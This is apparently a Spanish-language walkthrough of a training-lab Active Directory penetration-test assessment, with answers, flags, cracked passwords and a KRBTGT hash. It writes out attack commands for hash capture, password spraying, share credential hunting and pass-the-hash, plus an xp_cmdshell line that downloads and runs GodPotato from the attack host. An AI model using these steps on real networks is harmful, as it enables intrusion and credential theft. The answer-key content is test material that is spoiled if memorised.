

# Enumeración y Ataques de AD - Evaluación de Habilidades Parte II

## Escenario

> Nuestro cliente Inlanefreight nos ha contratado nuevamente para realizar una prueba de penetración interna de alcance completo. El cliente busca encontrar y remediar la mayor cantidad de fallas posibles antes de pasar por un proceso de fusión y adquisición. El nuevo CISO está particularmente preocupado por fallas de seguridad de AD más matizadas que pueden haber pasado desapercibidas durante pruebas de penetración anteriores. El cliente no está preocupado por tácticas evasivas o sigilosas y también nos ha proporcionado una máquina virtual Parrot Linux dentro de la red interna para obtener la mejor cobertura posible de todos los ángulos de la red y el entorno de Active Directory. Conéctese al host de ataque interno a través de SSH (también puede conectarse a él usando xfreerdp como se muestra al comienzo de este módulo) y comience a buscar un punto de apoyo en el dominio. Una vez que tenga un punto de apoyo, enumere el dominio y busque fallas que se puedan utilizar para moverse lateralmente, escalar privilegios y lograr comprometer el dominio.

> Aplique lo que aprendió en este módulo para comprometer el dominio y responda las preguntas a continuación para completar la parte II de la evaluación de habilidades.

---

## Preguntas y Respuestas

### **1. Obtenga un hash de contraseña para una cuenta de usuario de dominio que se pueda aprovechar para ganar un punto de apoyo en el dominio. ¿Cuál es el nombre de la cuenta?**
- **Respuesta:** `AB920`

#### Proceso:

Identificamos tres hosts en la red:
- `172.16.7.3` - DC01
- `172.16.7.50` - MS01
- `172.16.7.60` - SQL01

Todos pertenecen al dominio **Inlanefreight.local**.


Usamos la herramienta **Responder** para envenenar la red e intentar capturar hashes de contraseñas:

```bash
sudo responder -wf -I ens224
```

Logramos capturar el hash de contraseña del usuario **AB920**:



---

### **2. ¿Cuál es la contraseña de texto claro de este usuario?**
- **Respuesta:** `weasal`

#### Proceso:

Utilizamos **hashcat** para descifrar el hash:

```bash
hashcat hash /snap/seclists/rockyou.txt
```

Resultado:


---

### **3. Envíe el contenido del archivo C:\flag.txt en MS01.**
- **Respuesta:** `aud1t_gr0up_m3mbersh1ps!`

#### Proceso:

Con las credenciales `AB920:weasal`, usamos **evil-winrm** para conectarnos a **MS01** y acceder al archivo `flag.txt`.

---

### **4. Utilice un método común para obtener credenciales débiles para otro usuario. Envíe el nombre de usuario del usuario cuyas credenciales obtenga.**
- **Respuesta:** `BR086`

#### Proceso:

Enumeramos usuarios del dominio con **rpcclient**:

```bash
rpcclient -U AB920%weasal 172.16.7.3 -c "enumdomusers" | awk -F'[][]' '{print $2}' > users.txt
```

Aplicamos un ataque de **Password Spraying** con **kerbrute**:

```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 users.txt Welcome1
```

Resultado:


---

### **5. ¿Cuál es la contraseña de este usuario?**
- **Respuesta:** `Welcome1`

#### Proceso:

El ataque de **Password Spraying** confirmó que `Welcome1` era la contraseña de `BR086`.

---

### **6. Localice un archivo de configuración que contenga una cadena de conexión MSSQL. ¿Cuál es la contraseña del usuario que aparece en este archivo?**
- **Respuesta:** `D@ta_bAse_adm1n!`

#### Proceso:

Utilizamos **smbmap** para buscar archivos compartidos:

```bash
smbmap -u BR086 -p Welcome1 -d INLANEFREIGHT.LOCAL -H 172.16.7.3 -R 'Department Shares'
```

Identificamos un archivo `web.config` con credenciales incrustadas:


Descargamos el archivo:

```bash
smbmap -u BR086 -p Welcome1 -d INLANEFREIGHT.LOCAL -H 172.16.7.3 -R 'Department Shares' -A 'web.config'
```

Resultado:


---

### **7. Envíe el contenido del archivo flag.txt en el Escritorio del administrador en el host SQL01.**
- **Respuesta:** `s3imp3rs0nate_cl@ssic`

#### Proceso:

Con las credenciales encontradas, nos conectamos a SQL01 utilizando **mssqlclient.py** y habilitamos **xp_cmdshell** para ejecutar comandos:

```sql
enable_xp_cmdshell
xp_cmdshell "certutil.exe -urlcache -f http://172.16.7.240/GodPotato-NET4.exe C:\temp\GodPotato.exe"
```

Ejecutamos **GodPotato** para obtener una reverse shell como `NT Authority\System`:


Accedimos al archivo `flag.txt`.

---

### **8. Envíe el contenido del archivo flag.txt en el escritorio del administrador en el host MS01.**
- **Respuesta:** `exc3ss1ve_adm1n_r1ights!`

#### Proceso:

Aplicamos un ataque **Pass-The-Hash** para conectarnos al host MS01 utilizando el hash de **mssqlsvc**:


---

### **9. Obtenga credenciales para un usuario que tenga derechos GenericAll sobre el grupo de administradores de dominio. ¿Cuál es el nombre de cuenta de este usuario?**
- **Respuesta:** `CT059`

#### Proceso:

Usamos **Inveigh.ps1** para capturar hashes de credenciales adicionales:


---

### **10. Descifre el hash de contraseña de este usuario y envíe la contraseña en texto sin formato como respuesta.**
- **Respuesta:** `charlie1`

#### Proceso:

Desciframos el hash utilizando **hashcat**:


---

### **11. Envíe el contenido del archivo flag.txt en el escritorio del administrador en el host DC01.**
- **Respuesta:** `acLs_f0r_th3_w1n!`

#### Proceso:

Enumeramos el dominio con **Bloodhound-python** y confirmamos que `CT059` tenía permisos **GenericAll** sobre el grupo **Domain Admins**. Agregamos el usuario al grupo y nos conectamos a DC01 para obtener la flag.


---

### **12. Envíe el hash NTLM para la cuenta KRBTGT para el dominio de destino después de lograr la vulneración del dominio.**
- **Respuesta:** `7eba70412d81c1cd030d72a3e8dbe05f`

#### Proceso:

Usamos **mimikatz** para realizar un ataque **DCSync** y obtener el hash NTLM de `KRBTGT`:


---

### Conclusión

Este ejercicio demostró técnicas avanzadas de enumeración y explotación en entornos de Active Directory. Aplicamos una combinación de herramientas y estrategias para identificar vulnerabilidades, moverse lateralmente, escalar privilegios y comprometer el dominio completo.
